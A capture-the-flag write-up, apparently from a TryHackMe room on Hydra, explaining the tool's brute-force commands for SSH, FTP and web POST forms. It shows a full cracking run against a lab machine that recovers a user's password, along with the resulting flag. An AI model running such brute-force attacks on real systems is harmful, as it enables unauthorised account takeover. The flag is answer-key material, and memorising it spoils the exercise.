

# Hydra

## Task 1: Hydra Introduction

### What is Hydra?

Hydra is a brute force online password cracking program,
a quick system login password “hacking” tool.

Hydra can run through a list and “brute force” some authentication services.
Imagine trying to manually guess someone’s password on a particular service
(SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through
a password list and speed this process up for us, determining the correct password.

According to its official repository, Hydra supports, i.e., has the ability to
brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth,
Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET,
HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET,
HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB,
MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere,
PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB,
SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion,
TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”

For more information on the options of each protocol in Hydra,
you can check the Kali Hydra tool page.

This shows the importance of using a strong password; if your password is common,
doesn’t contain special characters and is not above eight characters,
it will be prone to be guessed. A one-hundred-million-password list contains
common passwords, so when an out-of-the-box application uses an easy password
to log in, change it from the default! CCTV cameras and web frameworks often
use admin:password as the default login credentials, which is obviously not strong enough.

### Installing Hydra

Hydra is already installed on the AttackBox.
You can access it by clicking on the Start AttackBox button.

If you prefer to use the in-browser Kali machine, Hydra also comes pre-installed,
as is the case with all Kali distributions. You can access it by selecting
Use Kali Linux and clicking on Start Kali Linux button.

However, you can check its official repositories if you prefer to use another
Linux distribution. For instance, you can install Hydra on an Ubuntu or Fedora
system by executing `apt install hydra` or `dnf install hydra`.
Furthermore, you can download it from its official
[THC-Hydra repository](https://github.com/vanhauser-thc/thc-hydra).

***Answer the questions below***

Read the above and have Hydra at the ready.

***Correct answer: No answer needed***

## Task 2: Using Hydra

Start the AttackBox by pressing the Start AttackBox button at the top of this page.
The AttackBox machine will start in Split-Screen view. If it is not visible,
use the blue Show Split View button at the top of the page.

Press the green Start Machine button below to deploy the machine attached to this task,
then navigate to <http://MACHINE_IP> on the AttackBox
(this machine can take up to 3 minutes to boot)

### Hydra Commands

The options we pass into Hydra depend on which service (protocol) we’re attacking.
For example, if we wanted to brute force FTP with the username being user and
a password list being passlist.txt, we’d use the following command:

`hydra -l user -P passlist.txt ftp://MACHINE_IP`

For this deployed machine, here are the commands to use Hydra on SSH
and a web form (POST method).

### SSH

`hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`

|Option|Description|
|:-|:-|
|-l|specifies the (SSH) username for login|
|-P|indicates a list of passwords|
|-t|sets the number of threads to spawn|

For example, `hydra -l root -P passwords.txt MACHINE_IP -t 4 ssh`
will run with the following arguments:

- Hydra will use root as the username for ssh
- It will try the passwords in the passwords.txt file
- There will be four threads running in parallel as indicated by -t 4

### Post Web Form

We can use Hydra to brute force web forms too.
You must know which type of request it is making;
GET or POST methods are commonly used.
You can use your browser’s network tab (in developer tools)
to see the request types or view the source code.

`sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"`

|Option|Description|
|:-|:-|
|`-l`|the username for (web form) login|
|`-P`|the password list to use|
|http-post-form|the type of the form is POST|
|`<path>`|the login page URL, for example, `login.php`|
|`<login_credentials>`|the username and password used to log in, for example, `username=^USER^&password=^PASS^`|
|`<invalid_response>`|part of the response when the login fails|
|`-V`|verbose output for every attempt|

Below is a more concrete example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

- The login page is only /, i.e., the main IP address.
- The username is the form field where the username is entered
- The specified username(s) will replace ^USER^
- The password is the form field where the password is entered
- The provided passwords will be replacing ^PASS^
- Finally, F=incorrect is a string that appears in the server reply when the login fails

You should now have enough information to put this to practice
and brute force your credentials to the deployed machine!

***Answer the questions below***

Use Hydra to bruteforce molly's web password. What is flag 1?

*Solution:* We need to add `/login` at the beginning of the given command's path.

```bash
root@ip-10-81-137-139:~# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.81.164.8 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-29 06:55:25
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.81.164.8:80/login/:username=^USER^&password=^PASS^:F=incorrect
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "password" - 4 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "iloveyou" - 5 of 14344398 [child 4] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "princess" - 6 of 14344398 [child 5] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "1234567" - 7 of 14344398 [child 6] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "rockyou" - 8 of 14344398 [child 7] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "12345678" - 9 of 14344398 [child 8] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "abc123" - 10 of 14344398 [child 9] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "nicole" - 11 of 14344398 [child 10] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "daniel" - 12 of 14344398 [child 11] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "babygirl" - 13 of 14344398 [child 12] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "monkey" - 14 of 14344398 [child 13] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "lovely" - 15 of 14344398 [child 14] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "jessica" - 16 of 14344398 [child 15] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "654321" - 17 of 14344398 [child 4] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "michael" - 18 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "ashley" - 19 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "qwerty" - 20 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "111111" - 21 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "iloveu" - 22 of 14344398 [child 5] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "000000" - 23 of 14344398 [child 6] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "michelle" - 24 of 14344398 [child 7] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "tigger" - 25 of 14344398 [child 13] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "sunshine" - 26 of 14344398 [child 8] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "chocolate" - 27 of 14344398 [child 10] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "password1" - 28 of 14344398 [child 11] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "soccer" - 29 of 14344398 [child 12] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "anthony" - 30 of 14344398 [child 14] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "friends" - 31 of 14344398 [child 9] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "butterfly" - 32 of 14344398 [child 15] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "purple" - 33 of 14344398 [child 4] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "angel" - 34 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "jordan" - 35 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "liverpool" - 36 of 14344398 [child 9] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "justin" - 37 of 14344398 [child 12] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "loveme" - 38 of 14344398 [child 15] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "fuckyou" - 39 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "123123" - 40 of 14344398 [child 6] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "football" - 41 of 14344398 [child 7] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "secret" - 42 of 14344398 [child 13] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "andrea" - 43 of 14344398 [child 14] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "carlos" - 44 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "jennifer" - 45 of 14344398 [child 5] (0/0)
[ATTEMPT] target 10.81.164.8 - login "molly" - pass "joshua" - 46 of 14344398 [child 4] (0/0)
[80][http-post-form] host: 10.81.164.8   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-29 06:55:39
```

The password is `sunshine`.
Now open a browser and go to `http://10.81.164.8/login`.
Enter `molly` and `sunshine`.



***Correct answer:THM{2673a7dd116de68e85c48ec0b1f2612e}***

Use Hydra to bruteforce molly's SSH password. What is flag 2?

***Correct answer:***
